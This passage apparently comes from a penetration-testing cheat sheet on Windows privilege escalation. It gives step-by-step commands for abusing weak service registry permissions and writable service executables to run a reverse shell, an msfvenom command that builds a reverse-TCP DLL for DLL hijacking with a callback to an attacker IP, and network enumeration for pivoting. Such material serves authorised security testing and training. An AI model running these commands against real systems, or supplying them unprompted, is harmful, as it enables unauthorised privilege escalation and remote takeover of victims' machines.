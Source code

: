 Check for permission on registry

```powershell
C:\Cas> .\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

```powershell
C:\Cas> reg add <weak_registry> /v ImagePath /t REG_EXPAND_SZ /d C:\Cas\shell.exe /f 
```

#### Insecure Service Executables

??? info "info"
    If the original service executable is modifiable by our user, we can simply replace it with our reverse shell executable

Check for user/group permission on executable file

```powershell
C:\Cas> .\accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

```powershell
C:\Cas> copy /Y shell.exe "C:\Program Files\File Permissions Service\<insecure-service>"
```

#### DLL Hijacking

??? info "info"
    Find a process that runs/will run as with other privileges (horizontal/lateral movement) that is missing a dll.
    Have write permission on any folder where the dll is going to be searched (probably the executable directory or some folder inside the system path)

    Find missing Dlls inside system: [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)

```powershell
C:\Cas> msfvenom -p windows/x64/shell_reverse_tcp LHOST=<my-ip> LPORT=80 -f dll -o reverse.dll
```

## Networking Information

??? info "info"
    An attacker may use a compromised target to pivot, or move between connected networks. This will amplify network visibility and allow the attacker to target hosts not directly visible from the original attack machine.
    We can also investigate port bindings to see if a running service is only available on a loopback address, rather than on a routable one. Investigating a privileged program or service listening on the loopback interface could expand our attack surface and increase our probability of a privilege escalation attack.

### Full TCP/IP configuration

```powershell
C:\Cas> ipconfig /all
```
